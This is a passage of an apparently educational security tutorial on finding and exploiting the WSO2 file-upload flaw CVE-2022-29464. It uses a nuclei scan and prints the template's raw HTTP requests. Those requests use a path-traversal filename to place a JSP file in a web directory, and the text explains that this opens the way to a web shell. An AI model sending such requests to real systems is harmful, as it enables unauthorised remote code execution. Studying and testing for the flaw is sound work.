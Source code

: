 ```
After the installation is completed, as we said, we will choose to scan targets vulnerable to the CVE-2022-29464, so we will download the specific [```CVE-2022-29464.yaml```](https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2022/CVE-2022-29464.yaml) file.

```nuclei -t CVE-2022-29464.yaml -l targets.txt```

We can see that our target was found vulnerable by nuclei.

<img src="../media/nuclei_run.png">

## CVEs exploitation

### CVE-2022-29464

We didn't talk at all about how this vulnerability works; the main idea is that the vulnerable WSO2 products allow unrestricted file upload which results in remote code execution.
This means that we can upload any file on the server.
The main approach to succeed the vulnerability inside the WSO2 is to do a POST request which tries to upload a [web shell file](https://www.upguard.com/blog/what-are-web-shell-attacks) in JSP format on the target system.

This web shell enables the target to be remotely accessed by the attacker, which can run commands on the system
After this POST request is made, another GET request to the web shell path endpoint to check if the vulnerability was successfully exploited.

```yaml
requests:
  - raw:
      - |
        POST /fileupload/toolsAny HTTP/1.1
        Host: {{Hostname}}
        Content-Type: multipart/form-data; boundary=---------------------------250033711231076532771336998311
        Content-Length: 348
        -----------------------------250033711231076532771336998311
        Content-Disposition: form-data; name="../../../../repository/deployment/server/webapps/authenticationendpoint/{{to_lower("{{randstr}}")}}.jsp";filename="test.jsp"
        Content-Type: application/octet-stream
        <% out.print("WSO2-RCE-CVE-2022-29464"); %>
        -----------------------------250033711231076532771336998311--
      - |
        GET /authenticationendpoint/{{to_lower("{{randstr}}")}}.jsp HTTP/1.1
        Host: {{Hostname}}
```

We know that one of the vulnerable endpoint is the ```../../../../repository/deployment/server/webapps/authenticationendpoint/``` endpoint.
So, the main idea is to send a **POST** request containing a web shell, which let us to send commands on the system: to craft a request like the one inside the ```.yaml``` file we will use Burp Suite.
